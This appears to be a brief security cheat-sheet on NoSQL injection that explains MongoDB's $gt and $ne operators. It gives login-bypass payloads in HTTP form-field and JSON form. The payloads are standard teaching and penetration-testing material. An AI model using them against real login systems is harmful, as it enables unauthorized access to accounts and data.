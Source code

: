 ```yaml
---
title: NoSQL Injection
lastUpdated: 2025-09-21
---
```


```
db.courses.find({ "rating": { "$gt": 0 } })
```

$gt = greater than

## HTTP Data
```
username[$ne]=abc&password[$ne]=abc
```
## JSON Data
```
{"username": {"$ne": null}, "password": {"$ne": null}}
```

$ne = not equal